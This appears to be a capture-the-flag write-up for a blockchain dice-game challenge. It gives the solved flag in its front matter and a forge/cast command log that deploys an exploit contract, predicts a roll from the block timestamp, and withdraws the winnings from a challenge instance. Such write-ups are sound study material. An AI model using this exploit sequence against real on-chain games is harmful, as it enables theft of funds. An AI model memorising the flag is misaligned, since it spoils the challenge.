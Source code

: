 ```yaml
---
title: "Dice Game"
categories: Miscellaneous
tags: 
  - Blockchain
draft: false
completedDuringEvent: true
submitted: true
flags: RECURSION{pr0vably_f41r_d1ce_g4me_w1th_smart_c0ntr4cts}
---
```

> This is a blockchain-based **dice game** that simulates traditional gambling mechanics using smart contracts. Players can start a game, place wagers, and roll virtual dice with outcomes ranging from 1 to 1000. The game is designed to be provably fair by utilizing a combination of user-generated and server-generated seeds to compute each roll deterministically.

by `ztz`

---

```bash
$ forge create --broadcast --rpc-url http://103.87.66.171:8545/k16a8f6i8r9i5n7z --private-key 0xb1a96be28556d6721d3a5e0eb5d4973f1a4ba3e0754b99f1d6dd85134d57680e ./src/Exploit.sol:Exploit --constructor-args 0xF17C373965C4e66c8eaD5E24B41ABaFeA37e8E83 0x1c4107E0C5AF7Ff7e5fF1D8aC02b7A19e7Cd6379

$ cast send --private-key 0xb1a96be28556d6721d3a5e0eb5d4973f1a4ba3e0754b99f1d6dd85134d57680e --value 16ether 0x4bd657ac6a6C8908AEc9EAD37860fAba25700Cda --rpc-url http://103.87.66.171:8545/k16a8f6i8r9i5n7z
$ cast send 0x4bd657ac6a6C8908AEc9EAD37860fAba25700Cda "attack()" --private-key 0xb1a96be28556d6721d3a5e0eb5d4973f1a4ba3e0754b99f1d6dd85134d57680e --rpc-url http://103.87.66.171:8545/k16a8f6i8r9i5n7z
$ cast block latest --rpc-url http://103.87.66.171:8545/k16a8f6i8r9i5n7z
$ cast send 0x4bd657ac6a6C8908AEc9EAD37860fAba25700Cda "exploit(uint256, uint256)" 6 1743917106 --private-key 0xb1a96be28556d6721d3a5e0eb5d4973f1a4ba3e0754b99f1d6dd85134d57680e --rpc-url http://103.87.66.171:8545/k16a8f6i8r9i5n7z
$ cast send 0x4bd657ac6a6C8908AEc9EAD37860fAba25700Cda "withdraw()" --private-key 0xb1a96be28556d6721d3a5e0eb5d4973f1a4ba3e0754b99f1d6dd85134d57680e --rpc-url http://103.87.66.171:8545/k16a8f6i8r9i5n7z
```
